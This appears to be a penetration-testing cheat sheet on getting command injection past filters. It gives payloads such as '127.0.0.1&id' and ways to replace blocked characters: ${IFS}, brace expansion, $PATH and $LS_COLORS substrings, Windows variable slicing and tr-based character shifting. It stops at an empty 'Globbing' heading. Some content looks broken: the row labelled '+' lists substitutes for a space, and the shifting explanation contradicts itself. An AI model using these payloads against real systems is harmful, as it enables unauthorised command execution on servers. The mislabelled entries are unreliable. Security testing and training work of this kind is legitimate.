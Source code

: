 We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try the methods below!

## Blacklisted Characters

### Environment Variables

{% tabs %}
{% tab title="Linux" %}
```bash
# list all environment variables
env
```
{% endtab %}

{% tab title="Windows" %}
```powershell
# list all environment variables
set # cmd
Get-ChildItem Env: # powershell

# if `\` is block
%HOMEPATH:~6,-4% # cmd
$env:HOMEPATH[0] # powershell
```
{% endtab %}
{% endtabs %}

Below there are some common blacklisted characters in Linux and their potential alternatives.

<table><thead><tr><th width="350">Blocked</th><th>Alternative(s)</th></tr></thead><tbody><tr><td><code>+</code></td><td><p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p></td></tr><tr><td><code>/</code></td><td><code>${PATH:0:1}</code></td></tr><tr><td><code>;</code></td><td><code>${LS_COLORS:10:1}</code></td></tr><tr><td><code>:</code></td><td><code>${LS_COLORS:4:1}</code></td></tr></tbody></table>

### Character Shifting

We can shift the character by 1, so when we can pass the ASCII character before the one we need. We can get the ASCII table using `man ascii`. For instance if we need to use the `+` symbol, we would use the `*` that comes after it.

```bash
echo $(tr '!-}' '"-~'<<<*)
+
```

### Globbing
